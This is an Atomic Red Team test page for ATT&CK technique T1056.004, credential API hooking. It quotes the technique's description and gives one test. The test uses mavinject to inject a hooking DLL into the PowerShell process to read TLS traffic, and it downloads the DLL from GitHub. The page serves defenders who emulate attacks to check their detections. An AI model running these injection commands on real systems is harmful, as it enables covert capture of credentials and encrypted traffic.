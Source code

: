 # T1056.004 - Input Capture: Credential API Hooking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/004)
<blockquote>Adversaries may hook into Windows application programming interface (API) functions to collect user credentials. Malicious hooking mechanisms may capture API calls that include parameters that reveal user authentication credentials.(Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017) Unlike [Keylogging](https://attack.mitre.org/techniques/T1056/001),  this technique focuses specifically on API functions that include parameters that reveal user credentials. Hooking involves redirecting calls to these functions and can be implemented via:

* **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs.(Citation: Microsoft Hook Overview)(Citation: Elastic Process Injection July 2017)
* **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored.(Citation: Elastic Process Injection July 2017)(Citation: Adlice Software IAT Hooks Oct 2014)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
* **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow.(Citation: Elastic Process Injection July 2017)(Citation: HighTech Bridge Inline Hooking Sept 2011)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages](#atomic-test-1---hook-powershell-tls-encryptdecrypt-messages)


<br/>

## Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages
Hooks functions in PowerShell to read TLS Communications

**Supported Platforms:** Windows


**auto_generated_guid:** de1934ea-1fbf-425b-8795-65fb27dd7e33





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | Dll To Inject | path | PathToAtomicsFolder&#92;T1056.004&#92;bin&#92;T1056.004x64.dll|
| server_name | TLS Server To Test Get Request | url | https://www.example.com|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
mavinject $pid /INJECTRUNNING #{file_name}
Invoke-WebRequest #{server_name} -UseBasicParsing
```




#### Dependencies:  Run with `powershell`!
##### Description: T1056.004x64.dll must exist on disk at specified location (#{file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1056.004/bin/T1056.004x64.dll" -OutFile "#{file_name}" -UseBasicParsing
```




<br/>
